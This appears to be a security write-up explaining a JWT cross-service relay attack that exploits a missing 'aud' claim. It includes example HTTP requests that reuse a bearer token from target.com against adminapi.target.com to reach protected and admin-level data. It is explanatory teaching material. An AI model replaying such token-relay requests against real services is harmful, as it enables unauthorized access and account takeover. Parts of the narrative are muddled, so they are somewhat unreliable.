 ### Scenario 

In this scenario, an attacker leverages a missing "audience" (aud) claim in a JWT to perform a cross-service relay attack. This flaw allows the attacker to use a JWT intended for one service to access another unauthorized service.
Step-by-Step Breakdown

    Victim Logs into Service A:
        The victim authenticates with Service A, receiving a JWT without an "aud" claim.

    Attacker Intercepts JWT:
        The attacker gains access to the JWT (e.g., via an XSS vulnerability or network sniffing).

    Attacker Uses JWT to Access Service B:
        The attacker reuses the JWT to access Service B, which trusts the same identity provider but lacks proper audience validation.

- Attacker Authentication with Service A:
```http
POST /login HTTP/1.1
Host: target.com
Content-Type: application/json

{
  "username": "victim",
  "password": "password"
}
```
- Service A responds with a JWT:
```json
{
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."
}

```

At this point for example a domain like adminapi.target.com has been found and its swagger file is open. At this point the attacker logs into another service and recives a new token. After including this token into the requests which needs administrator access level, the attacker can simply [erforms administrator level requests and finally can takeover admin's account.

- Attacker Uses JWT to Access Service B:
```http
GET /data HTTP/1.1
Host: adminapi.target.com
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...

```

- Service B responds with the protected data:
```json
{
  "data": [
    {"id": "1", "info": "sensitive_data1"},
    {"id": "2", "info": "sensitive_data2"}
  ]
}

```
